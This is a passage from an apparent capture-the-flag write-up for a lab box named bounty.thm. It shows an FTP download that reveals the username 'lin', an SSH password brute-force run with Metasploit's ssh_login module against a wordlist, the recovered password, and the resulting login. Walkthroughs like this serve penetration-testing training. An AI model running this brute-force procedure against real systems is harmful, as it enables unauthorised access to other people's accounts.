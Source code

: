 These looks like passwords .

```
ftp> get task.txt -
remote: task.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
226 Transfer complete.
68 bytes received in 00:00 (1.21 KiB/s)

```

So we have a username : **lin.**

We can download them in our directory with a simple `get <filename>` .

## SSH

Now we can try [[Bruteforcing]] [[SSH]] with these credentials, we can use **[[Hydra]]** or <span style="color: rgb(224, 62, 45);">**Metasploit**</span> 

### [[Metasploit]]

We search for **ssh_login**, select <span style="color: rgb(224, 62, 45);">scanner/ssh/ssh_login</span> and set options :

```
msf6 auxiliary(scanner/ssh/ssh_login) > options
msf6 auxiliary(scanner/ssh/ssh_login) > set pass_file /home/hax/THM/CHALLENGES/Easy/Bounty/locks.txt
pass_file => /home/hax/THM/CHALLENGES/Easy/Bounty/locks.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set rhosts bounty.thm
rhosts => bounty.thm
msf6 auxiliary(scanner/ssh/ssh_login) > set username lin
username => lin
msf6 auxiliary(scanner/ssh/ssh_login) > set verbose true
verbose => true
msf6 auxiliary(scanner/ssh/ssh_login) > run

```

Now we wait for the result :

![c06e4e64ab34897a8b3162d5fd80ee1d.png](c06e4e64ab34897a8b3162d5fd80ee1d.png)

Now we can connect with **lin : <span style="color: rgb(45, 194, 107);">RedDr4gonSynd1cat3</span>**

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Bounty]
└─$ ssh lin@bounty.thm       
The authenticity of host 'bounty.thm (10.10.58.207)' can't be established.
ED25519 key fingerprint is SHA256:Y140oz+ukdhfyG8/c5KvqKdvm+Kl+gLSvokSys7SgPU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'bounty.thm' (ED25519) to the list of known hosts.
lin@bounty.thm's password: 
Permission denied, please try again.
lin@bounty.thm's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

```